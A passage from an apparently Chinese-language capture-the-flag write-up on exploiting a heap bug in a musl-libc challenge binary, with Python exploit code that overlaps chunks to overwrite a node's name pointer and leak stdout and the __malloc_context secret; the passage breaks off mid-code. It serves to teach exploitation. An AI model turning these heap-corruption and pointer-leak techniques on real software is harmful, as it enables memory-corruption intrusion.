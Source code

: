 下一步，我们就需要想办法读取到程序中保存的``stdout``的值，以获取libc的基地址。由于在正常情况下堆地址不会分配到那个地方，因此我们需要能够修改根节点的结构体本身。可行的方法是：分配掉5个chunk，之后分配根节点，根节点的``name``大小也为0x38。然后我们重新分配根节点，释放前面的一个结点。此时7个chunk中一共就有3个被释放，依次是前面的一个chunk、原根节点结构体chunk、原根节点``name``的chunk。当我们此时再一次分配一个chunk，且将``name``的大小也设置为0x38时，我们就能够将``name``的chunk申请到原根节点结构体，从而直接修改原根节点结构体中``name``指针的值。不过需要注意的是，本题中添加和删除的操作较为复杂，随意修改三个二叉树指针很可能会导致程序崩溃退出，但经过调试发现，指针的值相对于elf文件加载地址的偏移始终不变。我们在上一步已经知道了elf的加载地址，因此我们在写的时候可以不修改指针的值，而是只修改``name``指针的值，避免程序崩溃。

```python
clear()

for i in range(5):
    add(i, 0x78, p64(i + 0xdeadbeef00) + b'\n')
add(11, 0x38, p64(11 + 0xdeadbeef00) + b'\n')
add(11, 0x78, p64(11 + 0xdeadbeef00) + b'\n')
delete(4)
print(hex(heap_addr))

payload = p64(4)
payload += p64(stdout)
payload += p64(0x20)
payload += p64(1)
payload += p64(elf_base + 0x51e0)
payload += p64(elf_base + 0x50e0)
payload += p64(0)

add(15, 0x38, payload)

payload = p64(11)
payload += p64(stdout)
payload += p64(0x38)
payload += p64(2)
payload += p64(0xdeadbeef)
payload += p64(elf_base + 0x5120)
payload += p64(elf_base + 0x5160)

add(13, 0x38, payload)
check(11)
```
![](2.png)
成功获取``stdout``的值。

### Step 3: 获取``__malloc_context``结构体中的``secret``值
和第二步相同，我们如法炮制。
```python
clear()

for i in range(6):
    add(i, 0x78, p64(i + 0xdeadbeef00) + b'\n')
clear()

for i in range(4):
    add(i, 0x78, p64(i + 0xdeadbeef00) + b'\n')
add(11, 0x38, p64(11 + 0xdeadbeef00) + b'\n')
add(11, 0x78, p64(11 + 0xdeadbeef00) + b'\n')
delete(3)
print(hex(heap_addr))

payload = p64(4)
payload += p64(__malloc_context)
payload += p64(0x20)
payload += p64(1)
payload += p64(elf_base + 0x51e0)
payload += p64(elf_base + 0x50e0)
payload += p64(0)

```